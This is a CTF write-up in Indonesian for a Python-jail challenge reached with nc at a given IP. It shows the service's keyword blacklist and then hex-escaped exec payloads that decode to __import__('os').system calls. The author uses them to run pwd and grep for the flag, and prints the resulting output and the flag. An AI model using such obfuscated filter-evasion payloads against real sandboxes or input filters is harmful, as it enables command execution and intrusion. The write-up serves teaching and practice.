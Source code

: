 Berikan sebuah python code untuk dieksekusi, dan tentunya ada beberapa fungsi yang kalian tidak dapat gunakan / blacklist...

```
nc 103.157.96.13 7786
```

setelah di jalanin, banyak fungsi yang didisable

```bash
$ nc 103.157.96.13 7786
-= Selamat datang di CTFR =-
-= Kalian disini dapat mengeksekusi Kode Python, akan tetapi ada fungsi yang di Blacklist yaah =-                                                                    
-= Blacklist: ['import', 'os', 'blacklist', 'from', 'eval', 'system', '_', '/bin/sh', '/bin', '/', 'sh', '.', ';', 'cat', 'flag', 'input'] =-                        
-= Library: base64, urllib.parse, time, urllib, math, random =-                                                                                                      
======================================================================                                                                                               
[+] Contoh Kode : print ("Hallo Dunia")
[?] Input Disini:                                                                                                                                                    
print("Halo")                                                                                                                                                        
[+] Kode yang dieksekusi : print("Halo")           
Halo                                     
[x] Hasil : None  
```

tapi sepertinya perintah `exec` tidak di filter, dengan perintah `exec` seharusnya bisa menggunakan hexadecimal payload, karena inputan berupa perintah python, sudah pasti bisa dipastikan bisa menjalankan perintah system, 

```python
# __import__('os').system('pwd')
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x77\x64\x27\x29")
```

hasilnya 

```bash
/home/ctf
```

karena ga tau letak flagnya dimana, jadi cari aja pake perintah grep, 

```python
#__import__('os').system('grep -rnw "/home/" -e "CTFR"')
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x67\x72\x65\x70\x20\x2d\x72\x6e\x77\x20\x22\x2f\x68\x6f\x6d\x65\x2f\x22\x20\x2d\x65\x20\x22\x43\x54\x46\x52\x22\x27\x29")
```

hasilnya 

```bash
[+] Contoh Kode : print ("Hallo Dunia")                                                                                                                              
[?] Input Disini:                                                                                                                                                    
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x67\x72\x65\x70\x20\x2d\x72\x6e\x77\x20\x22\x2f\x68\x6f\x6d\x65\x2f\x22\x20\x2d\x65\x20\x22\x43\x54\x46\x52\x22\x27\x29")                                                                                                      
[+] Kode yang dieksekusi : exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x67\x72\x65\x70\x20\x2d\x72\x6e\x77\x20\x22\x2f\x68\x6f\x6d\x65\x2f\x22\x20\x2d\x65\x20\x22\x43\x54\x46\x52\x22\x27\x29")                                                                           
/home/ctf/chal22.py:23:_p("{r}-= {w}Selamat datang di CTFR {r}=-{w}")                                                                                                
/home/flag:1:CTFR{wh3n_y0u_f0cu5_0n_50m3th1n9_y0u_w1ll_g0t_1t}                                                                                                       
[x] Hasil : None 
```

Flag 

```
CTFR{wh3n_y0u_f0cu5_0n_50m3th1n9_y0u_w1ll_g0t_1t}
```